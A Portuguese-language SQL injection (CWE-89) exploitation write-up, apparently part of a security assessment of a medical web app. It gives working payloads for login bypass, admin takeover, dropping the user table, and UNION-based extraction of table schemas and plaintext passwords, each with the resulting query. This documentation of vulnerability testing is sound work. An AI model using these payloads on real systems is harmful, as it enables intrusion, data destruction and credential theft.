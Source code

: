 ## CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
- https://cwe.mitre.org/data/definitions/89.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-89-improper-neutralization-of-special-elements-used-in-an-sql-command-sql-injection).**

---
# Exploração da vulnerabilidade

## Ataque: login sem credenciais válidas

### Passo 1
Aceder à página de login e inserir um email existente e no campo 'Password' o seguinte excerto de código SQL:
```sql
' or 1=1 ) -- //
```

![CWE-89](images/CWE-89_image1.png)

### Passo 2
Submeter o formulário de login.

![CWE-89](images/CWE-89_image2.png)

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '' OR 1=1 ) -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND 1
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' )
```

O atacante entra na conta, mesmo desconhecendo a password da vítima.

## Ataque: login na conta do administrador
### Conhecimento prévio 
O atacante sabe que é provável que o utilizador com id = 1 seja um administrador do sistema.

### Passo 1
Aceder à página de login e inserir um email existente e no campo 'Password' o seguinte excerto de código SQL:
```sql
') or 1=1 -- //
```

### Passo 2
Submeter o formulário de login.

### Resultado
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '') OR 1=1 -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE 1
```
equivalente a
```sql
SELECT * FROM app_user
```

![CWE-89](images/CWE-89_image3.png)

O atacante entra na conta do primeiro utilizador registado na tabela 'app_user' (correspondente ao **admin**), mesmo desconhecendo a sua password.

No caso, a conta do admin tem acesso a uma página de administração, que permite fazer *queries* à base de dados.

O atacante consegue aceder e modificar o conteúdo da base de dados.

<br>

## Ataque: apagar a tabela com os utilizadores
### Conhecimento prévio
O atacante sabe que a tabela 'app_user' pode conter os utilizadores registados no sistema.

Esse nome é o predefinido por algumas aplicações web, por exemplo, as que desenvolvidas em Django (outra framework web Python).

### Passo 1
Aceder à página de registo de um utilizador (não doutor) e inserir no campo 'First Name' o seguinte excerto de código SQL:
```sql
'); DROP TABLE app_user; -- //
```

### Passo 2
Submeter o formulário de registo.

![CWE-89](images/CWE-89_image4.png)

### Resultado
É executado o seguinte comando SQL:
```sql
INSERT INTO app_user (email, password_, name_) VALUES (''); DROP TABLE app_user; -- //
```
equivalente a
```sql
DROP TABLE app_user;
```

![CWE-89](images/CWE-89_image5.png)

Os utilizadores não conseguem autenticar-se no sistema e aqueles que têm uma sessão iniciada não têm acesso a algumas funcionalidades, nomeadamente a listagem dos doutores (vale recordar que esses também são utilizadores).

<br>

## Ataque: visualizar a tabela com utilizadores/doutores, desconhecendo o nome da mesma

### Passo 1
Aceder à página *Doctors* e inserir no campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //
```

### Passo 2
Submeter o formulário de pesquisa.

### Resultado intermédio
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
equivalente a
```sql
SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
O atacante fica a conhecer o nome das tabelas da base de dados.

![CWE-89](images/CWE-89_image6.png)

### Passo 3
Inserir no mesmo campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //
```

### Passo 4
Submeter novamente o formulário de pesquisa.

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT name_, email, password_ FROM app_user
```
equivalente a
```sql
SELECT name_, email, password_ FROM app_user
```

![CWE-89](images/CWE-89_image7.png)

O atacante fica a conhecer as credenciais de todos utilizadores, incluindo o admin e os doutores. Como as passwords estão em [*plain text*](CWE-257.md), o atacante consegue apoderar-se de qualquer conta.
